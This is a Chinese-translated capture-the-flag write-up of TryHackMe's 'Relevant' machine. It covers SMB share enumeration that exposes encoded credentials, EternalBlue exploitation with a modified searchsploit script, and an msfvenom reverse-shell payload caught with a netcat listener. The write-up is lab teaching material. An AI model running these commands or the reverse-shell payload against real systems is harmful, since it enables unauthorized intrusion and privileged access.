# TryHackMe —相关的 CTF 报道

> 原文：<https://infosecwriteups.com/tryhackme-relevant-ctf-write-up-7705501b73dd?source=collection_archive---------0----------------------->


相关是来自 TryHackMe 的中等挑战。有一些方法来完善这台机器，但在这篇文章中，我将解释如何使用与 samba 服务器相关的已知漏洞来完成。

首先，让我们从 Nmap 开始扫描所有端口。在这里，我们只需要运行:

```
nmap -oA nmap-full -Pn -sS -T4 -p- --defeat-rst-ratelimit 10.10.61.45
```

我已经设置了选项`-T4`和`--defeat-rst-ratelimit`来加快扫描速度，因为我在一个带 NAT 的虚拟机上运行 Kali，但这不是必须的。

正如你在下面看到的，这台机器有一堆开放的端口。有趣的是，我们注意到有一个 HTTP 服务器运行在端口 80 上，看起来像是一个 samba 服务器。还有一些其他更开放的端口，但是我不需要使用它们中的任何一个来获得 root，所以让我们跳过它们。



访问 web 服务器时，我们可以看到一个 Microsoft IIS 默认页面:



我已经尝试用 *gobuster* 枚举子目录，但什么也没找到，所以我们继续吧…

接下来，让我们看看我们能从 samba 服务器得到什么。使用 *smbclient* ，我们只需运行以下命令来尝试枚举共享，并将密码字段留空:

```
smbclient -L \\10.10.61.45\
```



很好，我们成功了！有一些默认共享，但 nt 4 works SV 可能隐藏了一些有趣的东西。我们可以尝试连接到这个共享，并通过运行以下命令来看看我们能得到什么:

```
smbclient \\10.10.61.45\nt4wrksv
```

如下图所示，有一个名为 *passwords.txt* 的文件:



检查文件后，我们可以看到有两个 base64 编码的字符串:



通过解码这些字符串，我们似乎可以找到两个用户 Bill 和 Bob 的密码:



不错！我们得到了用户的凭证，但是现在呢？让我们再次使用 Nmap 来运行一些漏洞检查，这样我们就可以看到是否有任何易受攻击的服务器。我们可以使用`--script`参数来做到这一点:

```
nmap -oA nmap-vuln -Pn -script vuln -p 80,135,139,445,3389 10.10.61.45
```


Nmap 检测到，由于 CVE-2017–0143，samba 服务器可能易受 RCE 攻击。快速搜索发现它与永恒之蓝漏洞有关:



因此，使用 *searchsploit* 我们可以获得永久蓝色漏洞:



让我们使用第二个— windows/remote/42315.py:

```
searchsploit -m windows/remote/42315.py
```



为了运行这个漏洞，我们需要下载 *mysmb.py* 文件，正如脚本开头提到的。此外，我们可以为用户设置用户名和密码。



让我们使用之前获得的凭据。这里我使用 Bob 的凭证，因为 Bill 的无效:



通过阅读源代码，可以注意到`smb_pwn`函数创建了一个虚拟文件 pwned.txt 来测试漏洞。



所以我们可以修改它来上传和执行一个反向 shell:



我们的 rshell.exe 可以用 *msfvenom* 获得。让我们通过运行以下命令来搜索 Windows 反向 shell 负载:

```
msfvenom -l payloads | grep windows | grep reverse | grep shell
```



选择*windows/shell _ reverse _ TCP*后，我们可以通过运行以下命令来查看参数:

```
msfvenom -p windows/shell_reverse_tcp --list-options
```



我们需要用本地机器 IP 设置 LHOST 变量。我选择了 4444 本地端口值(l port ),但是您可以选择任何其他值。格式将是。因为它将在 windows 计算机上执行。所以完整的命令是:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.6.126 LPORT=4444 -f exe > rshell.exe
```



在运行脚本之前，我们需要启动本地服务器。使用 *netcat* ，只需输入:

```
nc -lnvp 4444
```

现在使用远程机器 IP 运行脚本，您将获得以下输出:



尽管显示了一些错误，但总体任务执行成功，为我们提供了一个带有特权用户的 shell:



现在我们需要搜索标志，一个好的起点是 Users 文件夹，它包含两个用户，Bob 和 Administrator:



用户标志可以在 Bob 目录下的桌面文件夹中找到:



根标志位于管理员目录下的桌面文件夹中:



# 参考

*   [红队区——永恒之蓝](https://redteamzone.com/EternalBlue/)